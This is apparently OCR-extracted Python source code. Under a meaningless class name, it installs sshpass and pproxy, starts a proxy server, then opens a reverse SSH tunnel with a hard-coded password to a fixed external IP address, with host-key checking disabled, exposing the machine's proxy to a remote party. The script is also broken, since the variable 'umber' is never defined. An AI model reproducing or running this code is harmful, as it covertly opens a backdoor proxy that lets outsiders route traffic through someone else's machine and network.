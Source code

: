 
import threading
import time,os
class low_level_deep_note():
    def __init__(self) -> None:
        pass
    def def_1(self):
        os.popen('apt-get update&&apt-get install sshpass&&pip3 install pproxy&&pproxy').read()
        #apt-rep_and_install sspasfor connect the server and run proxy server ...
    def def_2(self,umber):
        os.popen(f'sshpass -p Rxqje4lbD1SLeojwoz4O ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null forward-user@109.125.177.149 -p 36492 -N -R {umber}:0.0.0.0:8080').read()
    print("All threads have finished.")
low_level_deep_note=low_level_deep_note()
thread1 = threading.Thread(target=low_level_deep_note.def_1)
thread2 = threading.Thread(target=low_level_deep_note.def_2,args=[umber])
thread1.start()
time.sleep(30)
thread2.start()
thread1.join()
thread2.join()
